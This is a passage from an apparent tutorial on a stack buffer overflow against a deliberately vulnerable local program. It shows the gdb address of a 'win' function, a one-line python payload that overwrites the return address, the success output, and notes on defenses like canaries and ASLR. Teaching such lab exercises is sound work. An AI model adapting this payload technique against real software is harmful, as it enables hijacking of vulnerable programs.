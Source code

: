 CopyEdit

`Symbol "win" is at 0x401156`

---

## 5️⃣ Craft Exploit Payload

Exit `gdb` and run:

bash

CopyEdit

`./stack_smash $(python3 -c "print('A'*72 + '\x56\x11\x40\x00\x00\x00\x00\x00')")`

Explanation:

- `A` × 64 → fills buffer
    
- `A` × 8 → skips base pointer
    
- `0x401156` → address of `win()`, little-endian
    

✅ Output:

css

CopyEdit

`🎉 Exploit successful! Code execution achieved! Goodbye!`

---

## 🎯 Summary

You just:

- Overwrote the return address
    
- Hijacked control flow to `win()`
    
- Simulated how attackers gain arbitrary code execution
    

---

## ✅ Notes

- **Real-world exploits** often use `shellcode` or `return-to-libc`
    
- **Defenses** (like stack canaries or ASLR) block this
    
- **Education only** — don't use this for unauthorized testing